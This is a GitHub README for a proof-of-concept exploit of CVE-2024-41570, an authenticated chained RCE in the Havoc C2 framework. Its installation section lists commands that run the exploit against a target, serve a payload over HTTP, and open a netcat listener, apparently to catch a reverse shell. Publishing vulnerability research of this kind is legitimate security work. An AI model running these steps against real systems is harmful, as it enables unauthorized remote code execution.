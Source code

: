 # Authenticated Havoc-Chained-RCE (CVE-2024-41570)

![GitHub](https://img.shields.io/github/license/dxlerYT/Havoc-C2-RCE-2024?style=flat-square)
![GitHub last commit](https://img.shields.io/github/last-commit/dxlerYT/Havoc-C2-RCE-2024?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/dxlerYT/Havoc-C2-RCE-2024?style=flat-square)

A proof-of-concept (PoC) [click here](https://github.com/chebuya/Havoc-C2-SSRF-poc)

## Overview

This repository contains a proof-of-concept (PoC) exploit for a Remote Code Execution (RCE) vulnerability discovered in Havoc C2 in 2024. The exploit demonstrates how an attacker could potentially execute arbitrary code on a target system running a vulnerable version of Havoc C2.

**Note:** This project is intended for educational and research purposes only. Do not use this code for malicious purposes.


## Installation

To use this PoC, follow these steps:

1. **Clone the repository:**
   ```bash
   git clone https://github.com/dxlerYT/Havoc-C2-RCE-2024.git
   cd Havoc-C2-RCE-2024
   Edit payload.sh
   sudo python3 exploit.py --target https://$IP -i 127.0.0.1 -p 40056
   python3 -m http.server 8000
   nc -nvlp 4444
   ```
